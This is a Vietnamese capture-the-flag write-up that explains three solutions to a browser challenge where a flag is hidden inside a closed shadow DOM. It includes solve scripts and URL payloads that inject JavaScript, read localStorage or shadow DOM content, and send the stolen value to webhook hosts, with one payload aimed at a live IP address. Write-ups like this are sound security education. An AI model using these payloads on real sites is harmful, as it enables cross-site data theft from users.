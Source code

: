 Một bài client side rất hay về shadow DOM, mục đích của đề bài đó chính là lấy được flag nằm trong một COMMENT node bên trong shadow DOM
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/791675ef-df54-43c0-967a-318536d6369b)

## Tổng quan
```html
<html>
	<head>
		<title>Sayeha</title>
	</head>
	<body>
		<div id="ctx"></div>
		<script>
			function containsText(){
				for(let i=0;i<0x10000;i++){
					if(window.find(String.fromCharCode(i))){
						return true
					}
				}
				return false
			}

			let params = new URLSearchParams(document.location.search)
			let html = params.get('html') ?? '<!-- hi -->'
			let p = params.get('p') ?? 'console.log(1337)'
			let shadow = ctx.attachShadow({mode: 'closed'});

			let mtag = document.createElement('meta')
			mtag.httpEquiv = 'Content-Security-Policy'
			mtag.content = `default-src 'none'; script-src 'unsafe-eval';`
			document.head.appendChild(mtag)

			shadow.appendChild(document.createElement('div'))
			shadow.children[0].innerHTML = `<!-- ${localStorage.getItem('secret') ?? 'ASIS{test-flag}'} -->`
			shadow.children[0].innerHTML += html.slice(0,0x2000)
			localStorage.removeItem('secret')

			if(
				shadow.children.length != 1 ||
				shadow.children[0].innerText != '' ||
				containsText()
			){
				throw 'no'
			}

			shadow = null
			mtag = null

			setTimeout(p,500)
		</script>
	</body>
</html>


```
Ta có 1 bug JS Injection và 1 bug HTML Injection lần lượt thông qua GET param `p` và `html`:
- Ở bug HTML Injection, data mà ta nhập vào sẽ được đưa vào một **closed** shadow DOM
- Ở bug JS Injection, data nhập vào sẽ được đưa vào sink `setTimeout`

Trang web có triển khai CSP: 
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/e00f981f-42e4-46ac-a592-d7e94fe313ec)

## Shadow DOM
Shadow DOM là một tính năng được sử dụng để tạo một DOM tree mới được "sandbox" với DOM tree chính
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/bd4a1f03-bf12-483e-812b-7aaebe0f56e1)

Shadow DOM sẽ được `attach` vào một host ( một node trong DOM chính ) và có thể ở một trong 2 trạng thái: `closed` và `open`. Đối với trạng thái open thì DOM tree chính có thể truy cập được vào bên trong thông qua thuộc tính `shadowRoot` của host node

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/52a8fa91-e321-4873-9b6b-2f380216b69b)

Đối với `closed` thì sẽ là điều ngược lại, ta sẽ nhận về giá trị `null` nếu cố gắng truy xuất vào shadowRoot
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/74268d1c-4622-4546-a7ce-345e6cf6a998)

Tới đây hẳn bạn sẽ nghĩ shadowRoot là một cơ chế bảo mật giúp sandbox một DOM tree lại, tuy nhiên shadow DOM chưa bao giờ được tạo ra nhằm mục đích bảo mật, nó được tạo ra để isolate các style giữa các DOM với nhau
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d3d6a506-bdea-4f23-ab80-ef682d7c7c1b)

Một trong những cách đã từng được sử dụng là sử dụng hàm `window.find` được đề cập trong bài `shadow` [DiceCTF 2022](https://github.com/Super-Guesser/ctf/blob/master/2022/dicectf/shadow.md), bởi dù là các DOM tree khác nhau nhưng vẫn cùng chung một `window` object nên việc này là dễ hiểu. Ở bài CTF lần này, kỹ thuật đó đã không còn sử dụng được bởi `window.find` chỉ có thể tìm ra các text trong DOM và sau khi được đưa vào DOM thông qua `innerHTML` thì `div` node đã được kiểm tra để bảo đảm thằng `innerText` là rỗng
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/36d93fed-18c7-45dd-98ff-4b199f78347d)

## Solution by Ark
Ở solution của Ark, tuy là một unintended solution nhưng mình thật sự thấy thích cách giải này, do writeup của Ark rất ngắn gọn, chỉ có solve script và không có giải thích gì nên mình quyết định sẽ giải thích cách làm đó tại đây:
Solve script của Ark:
```html
<body>
<script>
const TARGET_BASE_URL = "http://web";
// const TARGET_BASE_URL = "http://localhost:8000";

const HOOK_URL = "https://webhook.site/xxx";

const elm = document.createElement("iframe");
elm.src = `${TARGET_BASE_URL}?p=${encodeURIComponent(`
  const w = open("${TARGET_BASE_URL}");
  const flag = w.localStorage.getItem("secret");
  location = "${HOOK_URL}?q=" + flag;
`)}`;
document.body.appendChild(elm);
</script>
</body>
```
Ở đây anh này sẽ tạo một iframe, chĩa source của iframe đến trang challenge và sau đó tại trang challenge lại tiếp tục mở một window đến trang challenge đó, cùng đọc kỹ lại đoạn code của challenge:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/0294147e-11b2-44ac-ae1d-873fd9c5e937)

Chú ý ở 3 chỗ mình bôi đen, đầu tiên `secret` sẽ được lấy ra từ Local Storage và đưa vào comment, ngay sau đó sẽ thực hiện remove nó khỏi Local Storage nhằm mục đích ngăn việc truy xuất flag trực tiếp sau khi callback của `setTimeout` (do ta kiểm soát) chạy, 500 mili second là thời gian mà tác giả cho sleep để tránh việc callback được chạy trước khi `secret` được xóa khỏi Local Storage do tính bất đồng bộ của JS. Vậy cách làm của Ark chính là dùng `window.open` để lấy `secret` trong Local Storage trước khi nó bị remove. Nhưng hẳn bạn sẽ băn khoăn rằng chẳng phải `secret` đã được xóa từ khi lần đầu truy cập vào trang challenge rồi sao? Đó là lý do mà Ark dùng đến iframe, bên trong iframe thì Local Storage sẽ là Local Storage của top-live window do cơ chế [Storage Partitioning](https://developer.mozilla.org/en-US/docs/Web/Privacy/State_Partitioning#static_partitioning) của browser, do đó tại thời điểm đó `secret` sẽ không tồn tại trong Local Storage. 
## Solution by IcesFont
Đây là solution được sử dụng để giải cả `sageya` và `sageya_revenge` (fix unintended) bằng cách tạo một iframe element bên trong shadow DOM và set `name` là `x`, sau đó gọi `window.open('', 'x')` để select được đến element đó, cùng vấn đề với `window.find` đó là dù DOM khác nhau thì vẫn cùng chung một `window` object. 
Solve: `?html=<iframe name='x'></iframe>&p=location='http://webhook/?'+open('', 'x').frameElement.parentElement.firstChild.data`

Khi gọi đến `window.open`, tham số thứ 2 sẽ được dùng để xác định tên của một context, nếu context đó chưa tồn tại thì sẽ thực hiện mở 1 window để mở ra context đó, vậy thì bằng cách chèn một iframe (đóng vai trò là một context) và đặt tên cho nó thì ta có thể select đến phần tử của context đó thông qua thuộc tính `frameElement` và từ đó truy xuất được đến các phần tử còn lại của DOM, cách làm rất sáng tạo. 
## Solution by Ske
TL;DR:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/e42c14d5-0d7e-4bc6-b886-1ab3dd249ab2)

Để ý hàm `containsText`, vì cách hàm này check là dùng `window.find` để loop qua các ký tự từ 0->65536, ta biết đây là giới hạn các ký tự có thể biểu diễn được của UTF-16 và mỗi ký tự sẽ cần 2 byte để biểu diễn
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/8148a07f-9fa6-4ae4-8805-0feb61d1bc2a)

Một ký tự như emoji "🫠" (`1F AE 00`) sẽ cần đến 3 byte để biểu diễn, do đó sẽ bypass qua `containsText`. Cùng với đó thì tag `details` ở trạng thái collapsed sẽ có `innerText` == `""` tuy nhiên vẫn có thể được tìm thấy bởi `window.find`. Vậy là giải quyết được rồi, sử dụng lại kỹ thuật `window.find` và `document.execCommand` là giải quyết được bài này rồi nhỉ?
```
http://91.107.168.3:8000/?html=<details+contenteditable><summary></summary>🫠</details>&p=console.log(window.find('🫠'));document.execCommand('insertHTML',false,"<img+src=x+onerror=alert()+/>")`
```
Không đơn giản như thế, trong CSP không có `unsafe-inline`, ta không thể tùy ý thực thi JS được, Ske đã có một phát hiện rất hay đó là lợi dụng một callback `connectedCallback` được gọi mỗi khi một element được gắn vào cây DOM để từ đó truy xuất đến element đó
Bằng cách define một element mới với method `connectedCallback` dùng để truy xuất vào `this` ta sẽ dễ dàng truy xuất được đến shadow DOM
Payload của mình:
```
http://91.107.168.3:8000/?html=<details+contenteditable><summary></summary>🫠</details>&p=class TestElement extends HTMLElement {connectedCallback() {console.log(this.parentElement.parentElement.parentElement.innerHTML);}};customElements.define('test-element', TestElement);console.log(window.find("🫠"));document.execCommand("insertHTML",false,'<test-element></test-element>')
```
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/00c83d24-ba1f-4f53-b988-1bcde2623523)

Giờ chỉ cần gửi về webhook nữa là được :)
